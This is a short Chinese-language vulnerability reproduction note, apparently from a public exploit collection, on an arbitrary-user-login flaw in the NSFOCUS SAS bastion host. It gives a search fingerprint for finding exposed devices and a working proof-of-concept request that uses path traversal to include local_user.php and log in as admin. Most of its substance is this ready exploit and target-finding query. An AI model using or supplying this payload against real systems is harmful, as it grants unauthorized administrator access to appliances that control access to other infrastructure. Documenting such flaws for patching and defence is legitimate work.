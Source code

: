 # 绿盟 SAS堡垒机 local_user.php 任意用户登录漏洞

## 漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

## 漏洞影响

绿盟 SAS堡垒机

## 网络测绘

```
body="'/needUsbkey.php?username='"
```

## 漏洞复现

登陆页面

![image-20230828162656143](images/image-20230828162656143.png)

验证POC

```
/api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin
```

![image-20230828162712366](images/image-20230828162712366.png)